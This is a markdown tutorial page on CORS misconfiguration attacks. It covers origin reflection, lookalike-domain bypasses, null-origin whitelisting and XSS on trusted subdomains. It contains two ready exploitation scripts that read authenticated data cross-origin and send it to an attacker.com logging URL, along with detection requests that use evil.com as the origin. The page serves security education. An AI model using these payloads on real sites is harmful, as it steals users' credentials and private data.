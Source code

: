 ```yaml
---
title: "CORS misconfiguration"
weight: 7
description: "Learn how misconfigured CORS policies can expose sensitive data through origin reflection, null origin whitelisting, and XSS on trusted subdomains."
---
```


**Impact**: If a web response includes sensitive data (like an API key or CSRF token), and CORS is misconfigured, an attacker could steal that data using a malicious website.

---

## What is CORS?

CORS (Cross-Origin Resource Sharing) is a browser security feature that controls how web applications interact with resources hosted on different origins. It's designed to prevent malicious websites from making unauthorized requests to other sites on behalf of the user.

> **Note**: An "origin" in CORS includes the protocol, domain, and port. So `https://example.com` and `http://example.com` are considered different origins
\[[↗](https://developer.mozilla.org/en-US/docs/Glossary/Origin)].

---

## Origin Reflection in ACAO Header

Some vulnerable servers reflect the `Origin` header in the `Access-Control-Allow-Origin` response without validating it.

**How to Detect**

Send a request with a custom `Origin` header (e.g., `Origin: https://evil.com`) and check if the same origin is reflected back.

```http
Access-Control-Allow-Origin: https://evil.com
```

> **Warning**: If `Access-Control-Allow-Credentials: true` is also present, an attacker can send authenticated requests from a malicious origin.


**Exploitation Example**

```html
<script>
  var req = new XMLHttpRequest();
  req.onload = function () {
    location = 'https://attacker.com/log?data=' + this.responseText;
  };
  req.open('GET', 'https://vulnerable-website.com/secret-data', true);
  req.withCredentials = true;
  req.send();
</script>
```

---

## Bypassing Origin Checks with Similar Domains

Some applications whitelist trusted origins without strict validation, making it possible to bypass checks using similar-looking domains.

**Examples**:

- `hackersnormal-website.com`
- `normal-website.com.attacker.com`

> **Note**: You need to know or guess the whitelisted origins to attempt this.

---

## Whitelisted `null` Origin

If the server allows `null` as an origin, it may be vulnerable to data theft through sandboxed iframes.

**How to Detect**

Send a request with:

```http
Origin: null
```

and check for:

```http
Access-Control-Allow-Origin: null
```

**Exploitation Example**

```html
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html,
<script>
  var req = new XMLHttpRequest();
  req.onload = function () {
    location = 'https://attacker.com/log?data=' + this.responseText;
  };
  req.open('GET', 'https://vulnerable-website.com/secret-data', true);
  req.withCredentials = true;
  req.send();
</script>"></iframe>
```

---

## Using XSS on a Trusted Subdomain to Exploit CORS

If a site allows CORS requests only from a trusted subdomain and you find an XSS vulnerability on that subdomain, you can use the XSS to steal data via CORS.

**Example Response:**

```http
Access-Control-Allow-Origin: https://sub.vulnerable.com
Access-Control-Allow-Credentials: true
```

**Exploitation Flow:**

1. Find XSS on `https://sub.vulnerable.com`.
2. Inject malicious script that performs a CORS request to the main domain.
3. Steal the sensitive response.

URL:
```md
https://sub.vulnerable.com/?xss=<script>...your-code...</script>
```


---

## The Role of SameSite Cookies

CORS exploits often rely on the browser sending cookies along with cross-origin requests. This depends on the `SameSite` attribute of the cookie.
To exploit CORS with `withCredentials=true`, the session cookie must be accessible (i.e., not blocked by `SameSite=Strict`).